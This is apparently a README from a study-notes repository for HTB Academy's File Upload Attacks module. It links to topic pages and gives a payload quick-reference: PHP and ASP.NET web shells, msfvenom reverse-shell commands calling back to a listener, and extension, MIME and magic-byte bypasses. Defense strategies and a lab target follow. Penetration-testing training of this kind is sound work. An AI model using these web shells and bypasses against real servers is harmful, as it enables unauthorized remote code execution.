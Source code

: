 # File Upload Attacks - HTB Academy Guide

> Complete guide covering file upload vulnerabilities, exploitation techniques, bypass methods, and defense strategies from HTB Academy's File Upload Attacks module.

## 📚 Table of Contents

### Core Techniques
- **[Upload Exploitation](./upload-exploitation.md)** - Web shells, reverse shells, and payload execution
- **[Client-Side Validation](./client-side-validation.md)** - Bypassing JavaScript-based frontend filtering
- **[Blacklist Filters](./blacklist-filters.md)** - Extension fuzzing and blacklist bypass techniques
- **[Basic Bypass Techniques](./basic-bypass-techniques.md)** - Whitelist bypasses, double extensions, character injection
- **[Type Filters](./type-filters.md)** - Content-Type manipulation and MIME-Type magic bytes bypass
- **[Advanced Bypass Methods](./advanced-bypass-methods.md)** - Complex filtering evasion techniques
- **[Other Upload Attacks](./other-upload-attacks.md)** - Alternative attack vectors and techniques

### Defense & Testing
- **[Prevention & Hardening](./prevention-hardening.md)** - Secure file upload implementation
- **[Skills Assessment Walkthrough](./skills-assessment-walkthrough.md)** - Complete HTB Academy lab solutions

---

## Quick Reference

### 🎯 **Essential Upload Attack Payloads**

**PHP Web Shell (Basic):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**PHP Web Shell (Advanced):**
```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

**ASP.NET Web Shell:**
```asp
<% eval request('cmd') %>
```

**Reverse Shell Generation:**
```bash
# PHP Reverse Shell
msfvenom -p php/reverse_php LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.php

# JSP Reverse Shell  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.jsp

# ASPX Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f aspx > reverse.aspx
```

### 🔧 **Common Bypass Techniques**
```bash
# Extension Bypasses
file.php.jpg        # Double extension
file.php%00.jpg     # Null byte injection  
file.php%20         # Space injection
file.php%0a         # Newline injection

# Content-Type Bypasses
Content-Type: image/jpeg    # While uploading PHP
Content-Type: image/png     # Bypass MIME filtering
Content-Type: image/gif     # Image masquerading

# Magic Bytes (File Signature)
GIF8<?php system($_GET['cmd']); ?>      # Simple GIF header + PHP  
GIF89a<?php system($_GET['cmd']); ?>    # Full GIF header + PHP
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>    # JPEG header + PHP
```

### 🎯 **HTB Academy Coverage**
- ✅ **Upload Exploitation (Page 3)** - Web shells, reverse shells, msfvenom integration
- ✅ **Client-Side Validation (Page 4)** - Burp Suite interception, DevTools manipulation
- ✅ **Blacklist Filters (Page 5)** - Extension fuzzing, .phtml bypass, case sensitivity
- ✅ **Whitelist Filters (Page 6)** - Double extensions, character injection, null bytes
- ✅ **Type Filters (Page 7)** - Content-Type headers, MIME-Type magic bytes (GIF8), combined attacks
- ✅ **Complete Lab Solutions** - All HTB Academy flags and step-by-step walkthroughs
- ✅ **Advanced Techniques** - Server misconfigurations, automated wordlist generation, polyglot files

---

## Module Overview

File upload vulnerabilities occur when web applications allow users to upload files without proper validation and sanitization. These vulnerabilities can lead to:

### **💀 Critical Impacts:**
- **Remote Code Execution (RCE)** - Execute arbitrary commands on the server
- **Web Shell Deployment** - Persistent backdoor access
- **Data Exfiltration** - Access sensitive files and databases
- **Lateral Movement** - Pivot to internal network systems
- **Website Defacement** - Modify web application content

### **🎯 Attack Vectors:**
- **Unrestricted File Upload** - No validation on file types
- **Client-side Validation Only** - JavaScript-based filtering
- **Inadequate Server-side Validation** - Weak filtering mechanisms
- **File Type Confusion** - MIME type and extension mismatches
- **Path Traversal** - Directory traversal via filename manipulation

### **🛡️ Defense Strategies:**
- **Whitelist Approach** - Allow only specific file types
- **Server-side Validation** - Comprehensive file checking
- **File Content Inspection** - Magic byte verification
- **Secure Storage** - Non-executable upload directories
- **Filename Sanitization** - Remove dangerous characters

---

## HTB Academy Labs Covered

### **🧪 Practical Exercises:**
- **Upload Exploitation Lab** - Basic web shell deployment
- **Bypass Techniques Lab** - Filter evasion methods  
- **Advanced Attacks Lab** - Complex exploitation scenarios
- **Defense Implementation Lab** - Secure upload configuration

### **🎯 Skills Assessment:**
- **Target:** \`94.237.49.23:52640\`
- **Objective:** Upload web shell and retrieve \`/flag.txt\`
- **Techniques:** Extension bypass, content-type manipulation, payload execution

This module provides comprehensive coverage of file upload attack vectors, from basic exploitation to advanced bypass techniques, with practical HTB Academy lab solutions and real-world defense strategies.
